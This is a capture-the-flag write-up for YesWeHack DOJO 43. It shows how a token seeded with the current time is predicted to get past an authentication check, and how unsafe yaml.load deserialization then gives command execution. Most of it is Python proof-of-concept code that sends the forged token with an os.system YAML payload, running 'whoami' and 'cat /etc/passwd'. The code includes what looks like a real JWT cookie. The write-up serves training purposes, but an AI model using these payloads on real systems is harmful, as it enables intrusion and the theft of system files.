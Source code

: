 ```yaml
---
layout: single
title: Remote Code Execution via Unsafe YAML Deserialization with Token Bypass - DOJO 43
excerpt: "The challenge code performs unsafe YAML deserialization (yaml.load) on user-controlled input without proper validation or sandboxing, allowing remote code execution (RCE) via crafted payloads. A token-based access control is implemented comparing a guest token with a generated root token, but the check is flawed or bypassable, enabling an attacker to pass the authentication and reach the vulnerable YAML deserialization code. However, an attacker can bypass or control these tokens (e.g., via predictable token generation using the current time as seed), allowing access to the deserialization block where yaml.load is called with yaml.Loader. This allows arbitrary command execution via the !!python/object/apply:os.system YAML tag or similar techniques.
date: 2025-08-03
classes: wide
header:
  teaser: /img2/images/portswigger.png
  teaser_home_page: true
  icon: /img2/images/burp.jpg
categories:
  - yeswehack
  - Web
tags:
  - Auth-Token Bypass
  - Python Deserialization Attack (DES-Yaml)
---
```



![](/img2/Pasted%20image%2020250803225647.png)

> By reviewing the Python code, we see that for our token to be valid, it must be the same as the token generated by the server.

```python
import random
import time

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))

tokenRoot = genToken(int(time.time()) // 1)
print(f"TOKEN: {tokenRoot} --> TIME: {int(time.time()) // 1}")
```

![](/img2/Pasted%20image%2020250803230052.png)

> To replicate the behavior when generating the cookie, we can create a small script. By running the script several times, we can see that there's a range in which the same session cookie is generated, due to the poor implementation of time.

```python
import requests
import random
import time
import json

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))


url = "https://dojo-yeswehack.com:443/api/challenges/285cec14-a511-4567-93f5-e709b0eaf9b9"
cookies = {"jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI4YjBmZGY5My0yYWIzLTRiODktODAyZi1hYzdhZjhiOGQ4YTciLCJpc0FkbWluIjpmYWxzZSwib2F1dGgiOnRydWUsImlhdCI6MTc1NDI0NzkxOCwiZXhwIjoxNzU0ODUyNzE4fQ.KSTjnAOPUbwpMXdCEQfcKV8Jek2RsuG4zM7FuhhU4-4"}

tokenRoot = genToken(int(time.time()) // 1)
data = {"yaml": 'testing', "token": tokenRoot}
req=requests.post(url, cookies=cookies, data=data)

if "Unauthorized" not in req.text:
	try:
		raw=req.text
		parsed=json.loads(raw)
		print(parsed['output'])
	except:
		pass     
```

```bash
python3 cookie_poc.py > index.html
```

```bash
python3 -m http.server 80
```

![](/img2/Pasted%20image%2020250803230643.png)

> By replicating the result from our script on our own HTTP server, we can see that we've successfully bypassed the session token.

![](/img2/Pasted%20image%2020250803231016.png)

```python
!!python/object/apply:os.system ["whoami"]
```

> Once we gained access to the firmware update function, we reviewed the code and saw that it uses the `yaml.load()` function, which is vulnerable to Code Execution via Unsafe YAML Deserialization.

```python
import requests
import random
import time
import json
from bs4 import BeautifulSoup

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))



url = "https://dojo-yeswehack.com:443/api/challenges/285cec14-a511-4567-93f5-e709b0eaf9b9"
cookies = {"jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI4YjBmZGY5My0yYWIzLTRiODktODAyZi1hYzdhZjhiOGQ4YTciLCJpc0FkbWluIjpmYWxzZSwib2F1dGgiOnRydWUsImlhdCI6MTc1NDI0NzkxOCwiZXhwIjoxNzU0ODUyNzE4fQ.KSTjnAOPUbwpMXdCEQfcKV8Jek2RsuG4zM7FuhhU4-4"}

tokenRoot = genToken(int(time.time()) // 1)
data = {"yaml": '!!python/object/apply:os.system ["cat /etc/passwd"]', "token": tokenRoot}
req=requests.post(url, cookies=cookies, data=data)

if "Unauthorized" not in req.text:
	try:
		raw=req.text
		parsed=json.loads(raw)
		print(parsed['output'])
	except:
		pass
```

```bash
python3 poc.py
```

![](/img2/Pasted%20image%2020250803231448.png)

 > To achieve RCE, it's necessary to send a request with the token bypass and the payload `!!python/object/apply:os.system ["whoami"]` in the 'yaml' field.
## Flag

![](/img2/Pasted%20image%2020250803231544.png)

> Once we're able to execute arbitrary commands within the system, we can retrieve the flag at the end of the request.